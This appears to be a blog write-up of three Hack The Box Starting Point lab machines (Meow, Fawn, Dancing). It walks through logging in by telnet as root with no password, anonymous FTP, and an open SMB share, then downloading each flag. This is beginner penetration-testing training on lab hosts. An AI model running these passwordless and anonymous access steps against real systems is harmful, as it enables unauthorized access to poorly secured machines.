 ```yaml
---
layout: post
title: 'HTB | Tier 0'
permalink: /htb/starting-point/tier-0/
---
```


# [](#header-4)Meow
## [](#header-4)Connection
We just need to connect with telnet. The user will be root, with no password.
{% highlight plain %}
> telnet 10.129.53.229
> Meow login: root
{% endhighlight %}

## [](#header-4)Flag
Then we will have the flag just there.
{% highlight plain %}
> ls
> cat flag.txt
{% endhighlight %}

# [](#header-4)Fawn
## [](#header-4)Connection
In this case we need to make a connection with ftp. We will use the **anonymous** user to connect, with no password.
{% highlight plain %}
> ftp 10.129.1.14
Name (10.129.1.14:kali): anonymous
Password:
{% endhighlight %}

## [](#header-4)Flag
With **get**, we can download the file.
{% highlight plain %}
ftp> ls
ftp> get flag.txt
ftp> exit

> cat flag.txt
{% endhighlight %}


# [](#header-4)Dancing
## [](#header-4)Connection
We will need to use samba to connect. With the option **-L** we can see all the folders we have. We can see that the last one doesn't have protection.
{% highlight plain %}
> smbclient -L //10.129.119.218/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk 
> smbclient //10.129.119.218/WorkShares
{% endhighlight %}

## [](#header-4)Flag
With the command **get** we can download the file.
{% highlight plain %}
smb: \> ls
smb: \> cd James.P\
smb: \James.P\> ls
smb: \James.P\> get flag.txt
smb: \James.P\> exit

> cat flag.txt 
{% endhighlight %}

